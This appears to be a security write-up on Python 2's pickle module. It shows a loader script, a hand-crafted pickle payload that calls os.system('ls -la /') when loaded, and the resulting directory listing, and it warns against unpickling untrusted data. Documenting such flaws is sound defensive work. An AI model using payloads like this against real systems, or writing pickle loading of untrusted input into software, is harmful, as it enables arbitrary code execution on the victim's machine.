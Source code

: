 Unrestricted code execution using pickle
========================================

Classification
--------------------------

* **Affected Components** : pickle

* **Operating System** : Linux

* **Python Versions** : 2.6.x, 2.7.x

* **Reproducible** : Yes


Source code 
--------------------------

```python
import pickle

obj = pickle.load(open('./bug.pickle'))
print "== Object =="
print repr(obj)
```

AND COPY FOLLOWING TEXT INTO A FILE NAMED ```bug.pickle```

```python
cos
system
(S'ls -la /'
tR.

```

THEN PUT THIS FILE IN THE SAME FOLDEROF THE ```test.py``` FILE

Steps to Produce/Reproduce
--------------------------

To reproduce the problem copy the `source code` in a file and execute the script using the following command syntax:

```python
$ python -OOBRtt test.py
```

Alternatively you can open python in interactive mode:

```python
$ python -OOBRtt <press enter>
```
Then copy the lines of code into the interpreter.  


Description
-----------

The module ```pickle``` is not made with security in mind and can be used to execute any instruction with same permissions and  privileges as the user that is running the code.

In this case we have used ```pickle``` to load a file that contains a perfectly valid instruction that will be executed and will produce the following:

```
total 104
drwxr-xr-x  24 root root  4096 Feb 28 01:42 .
drwxr-xr-x  24 root root  4096 Feb 28 01:42 ..
drwxr-xr-x   2 root root  4096 Feb 28 01:14 bin
drwxr-xr-x   3 root root  4096 Feb 28 01:57 boot
drwxr-xr-x  14 root root  3680 May  2 14:28 dev
drwxr-xr-x 158 root root 12288 Apr 30 22:16 etc
drwxr-xr-x   3 root root  4096 Feb 28 00:45 home
lrwxrwxrwx   1 root root    30 Feb 27 23:29 initrd.img -> /boot/initrd.img-3.2.0-4-amd64
drwxr-xr-x  18 root root  4096 Feb 28 01:54 lib
drwxr-xr-x   2 root root  4096 Feb 27 23:31 lib64
drwx------   2 root root 16384 Feb 27 23:25 lost+found
drwxr-xr-x   3 root root  4096 May  2 09:18 media
drwxr-xr-x   2 root root  4096 Dec  4 12:31 mnt
drwxr-xr-x   2 root root  4096 Feb 27 23:26 opt
dr-xr-xr-x 316 root root     0 Apr 16 12:21 proc
drwx------   2 root root  4096 Mar  7 22:48 .pulse
-rw-------   1 root root   256 Feb 28 00:47 .pulse-cookie
drwx------   7 root root  4096 Mar  7 23:09 root
drwxr-xr-x  21 root root   840 May  1 00:02 run
drwxr-xr-x   2 root root  4096 Feb 28 01:55 sbin
drwxr-xr-x   2 root root  4096 Jun 10  2012 selinux
drwxr-xr-x   2 root root  4096 Feb 27 23:26 srv
drwxr-xr-x  13 root root     0 Apr 16 12:21 sys
drwxrwxrwt  13 root root  4096 May  2 14:57 tmp
drwxr-xr-x  10 root root  4096 Feb 27 23:26 usr
drwxr-xr-x  13 root root  4096 Feb 28 07:21 var
lrwxrwxrwx   1 root root    26 Feb 27 23:29 vmlinuz -> boot/vmlinuz-3.2.0-4-amd64
== Object ==
0
```

In fact ```pickle``` loaded the file and executed the code without any control.

***NEVER use ANYTHING that uses ```pickle``` or ```cPickle``` as this two libraries are NOT designed as safe/secure solution for data serialization.***


Workaround
-----------


We are not aware on any **easy** solution other than trying to avoid using ```'pickle'``` or ```'pickle'``` in cases like the one examined.


Secure Implementation
-----------


##### WORK IN PROGRESS


References
-----------

[Python pickle][01]
[01]:https://docs.python.org/2/library/pickle.html

